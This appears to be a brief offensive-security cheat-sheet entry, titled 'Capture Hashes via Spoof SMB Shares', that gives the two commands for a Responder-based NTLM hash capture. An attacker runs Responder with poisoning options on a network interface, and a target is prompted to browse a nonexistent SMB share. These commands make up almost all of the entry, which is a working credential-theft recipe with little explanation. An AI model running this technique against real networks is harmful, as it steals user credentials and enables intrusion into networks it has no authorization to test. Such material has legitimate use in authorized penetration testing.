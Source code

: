 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios

## 1.1 - Attacker

```
$ sudo responder -I <interface> -rdwv
```

## 1.2 - Target

```
C:\> net view \\snare
```